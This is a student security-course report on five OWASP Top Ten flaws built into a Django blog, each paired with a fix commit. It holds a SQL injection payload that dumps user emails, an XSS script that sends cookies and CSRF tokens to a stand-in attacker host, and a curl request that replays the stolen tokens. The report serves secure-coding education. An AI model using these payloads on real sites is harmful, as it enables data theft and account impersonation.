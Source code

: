 #+author: Juho Hautala
#+title: Project I Report - Security flaws from OWASP Top Ten list

* Security flaws from OWASP Top Ten 2017

This essay uses the OWASP Top Ten 2017 list: https://owasp.org/www-project-top-ten/2017.

LINK: https://github.com/vastus/cybsec21-project1

FLAW 1:
https://github.com/vastus/cybsec21-project1/blob/609cd90364be41e2b3df20bd72335be239bb46ae/project1/blog/views.py#L29

** Flaw 1: A1:2017-Injection

The first flaw shows a SQL injection vulnerability.

The app in question is a blog. The different roles of users of the blog can be an admin, author, user, or guest. Guest is the only unauthenticated role meaning that guests do not or are not signed in to the web application.

For this flaw it doesn't matter if the user is authenticated or not. The injection flaw is vulnerable through the search functionality of the application. The search functionality can be accessed from any page of the app.

The flaw can be triggered for example in the following way:

1. go to the home page of the app
2. paste the following as the search query

```
%' and false union select 1337,email,1337,1337 from blog_user --
```

This will query the user table for the application and expose all the email addresses for each registered account. Changing the column name to any other column in the user table will expose its values. The SQL injection described in this flaw doesn't allow the execution of multiple statements but this vulnerability is a serious weakness since it can be used to expose all the data stored in the database.

See https://owasp.org/Top10/A03_2021-Injection/ for more
https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html

** Flaw 1: Fixing the SQL injection

Instead of using raw SQL to perform the search one should use an ORM or escape the input used for the searching. Since this app is made with Django, the ORM should be used.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/blob/7355ba0c02171a1833733d8dfd6e1706be61d637/project1/blog/views.py#L25.

FLAW 2:
https://github.com/vastus/cybsec21-project1/blob/0d6dd7cf68128481a71d8fe1c617648ea5e75d03/project1/blog/templates/blog/posts/show.html#L68

** Flaw 2: A7:2017-Cross-Site Scripting (XSS)

The blog allows registered users to comment on posts. The comment form includes a hidden input field that's named `current_user_id` which the application uses to figure out who's the commenter. An attacker could alter the value of this field to impose commenting as someone else.

It's possible to inject <script> tags to the comment since the developers of the blog wanted to allow users to input their own markdown or styles to the comments but without further inspection this of course allows XSS attacks as well.

An attack might occur when after the attacker has registered and logged in to the site and they visit a post and comment on the post with the following comment body:

```
Interesting read...

<script>
const csrfmiddlewaretoken = document.querySelector('input[name=csrfmiddlewaretoken]').value;
const data = {cookie: document.cookie, csrfmiddlewaretoken};
fetch('https://h4x.or:1337/csrf-tokens', {method: 'POST', body: JSON.stringify({data})});
</script>
```

Given that the attacker has set up the server where the POST request is sending the CSRF token they can then use the token and another user ID to comment on posts as someone else.

An example request to exploit the vulnerability:

```
curl 'http://blog/posts/1/comments' \
     -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: csrftoken=$CSRF_TOKEN_FROM_COOKIE_PAYLOAD' \
     --data-raw 'csrfmiddlewaretoken=$CSRF_MIDDLEWARE_TOKEN_FROM_PAYLOAD&comment_user_id=1&comment_body=holup'
```

** Flaw 2: Fixing the XSS weakness

First of all the application should figure out the current user from the session instead of getting it from the hidden input field. All user input should be considered unsafe. The way that the comment body is rendered needs to be changed from safe to unsafe, so that the browser doesn't interpret the HTML tags (e.g. <script>).

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/c2e0b18a1357461d6224466c1196e1a4ad9e8438

FLAW 3:
https://github.com/vastus/cybsec21-project1/blob/4db57645b870df1ff1c2bcc6cf4ca8f53f6668f2/project1/blog/views.py#L87

** Flaw 3: A5:2017-Broken Access Control

It's easy to forget to correctly control the access within different parts of an application. The blog allows users to profiles (/profile/<user_id>). If the current user is viewing their own profile and they're signed in they can change their email address if they so wish. The developers of the blog coded the feature to fetch the updated user record by the user ID that's provided in the URL. This of course is an obvious case of broken access control where any logged in user may change other users information. An attacker might change admin's email address for example and request a new password which would then allow them to log in as the admin user.

** Flaw 3: Fixing the broken access control

To fix this vulnerability we should only allow changes to the current user's profile and not to anyone else's. Instead of updating the user record (identified by the user ID from the URL) we should check that the profile that is updated is only in the scope of the currently signed in user that's identified from the session.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/f0c639aeca1988f694f0cfa98fa60d1923a4173e

FLAW 4:
https://github.com/vastus/cybsec21-project1/blob/4db57645b870df1ff1c2bcc6cf4ca8f53f6668f2/project1/blog/models.py#L54

** Flaw 4: A2_2017-Broken_Authentication.html

This flaw showcases broken authentication in terms of password strength. There are many examples where test credentials have been left on production instances, applications allow registration with weak passwords e.g. too short passwords or passwords that are too common that are vulnerable to dictionary attacks. Deciding on what are the characteristics of a strong password and still keep the password choosing somewhat user friendly is hard which is why usually using a password manager is recommended.

Allowing weak passwords leaves the application vulnerable for authentication attacks that attackers can use to gain access to unwanted systems or attackers practicing identity theft.

** Flaw 4: Fixing broken authentication

The fix shown in the commit is far from perfect but it is clearly better than not checking for password weaknesses at all. The blog's registration process now checks a few properties of the password provided to the register procedure: the length has to be at least 12 characters, there has to be enough variance in the used character set that the password is made of, and the password is compared against 10k common passwords. This is by no means an exhaustive list of steps ensuring the provided password isn't weak but it's a good start. Checking the password for weaknesses, as it is implemented in the app, is not too performant either but this essay focuses on security and not on performance thus that aspect of the procedure will be considered out of scope.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/b08a723eedacd9ded2ae4b017943724b97527b72

FLAW 5:
https://github.com/vastus/cybsec21-project1/blob/5320b58cee848e9b113c1c682ddf711d0737054c/project1/blog/views.py#L48-L49

** Flaw 5: A10:2017-Insufficient Logging & Monitoring

It is very hard to analyze the usage of an application or service without proper logging and monitoring. Attackers can probe for vulnerabilities and try to penetrate by performing different kinds of high-frequency attacks. It's crucial to have decent logging, monitoring, and alerting. There aren't any logging used in the blog app at the moment. It would be hard to try to analyze the django logs and tell if someone was trying to forcefully authenticate, for example. To further improve the transparency of authentication in the app we should log whenever a user tries to log in to the blog.

** Flaw 5: Adding logs

Let's fix the insufficient logging in the app whenever a user tries to authenticate. Logging authentication can be split into 3 different types: a successful authentication when email/password combination is correct, a failed authentication when an existing user was found with the provided email but the password was incorrect, and lastly failed authentication when no user was found with the given email.

To simplify the fix, logging has been added only to the authentication process but it should be used with at least auditable events, wherever warnings or errors might occur, access control, and server failures.

An example log line of an authentication attempt that failed:

    [WARNING] 2021-12-10 13:00:12 - AUTH FAIL: existing username=sudo ip=13.37.90.01

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/448e79b7a8b9170d1ea7da0e810801718a317e69
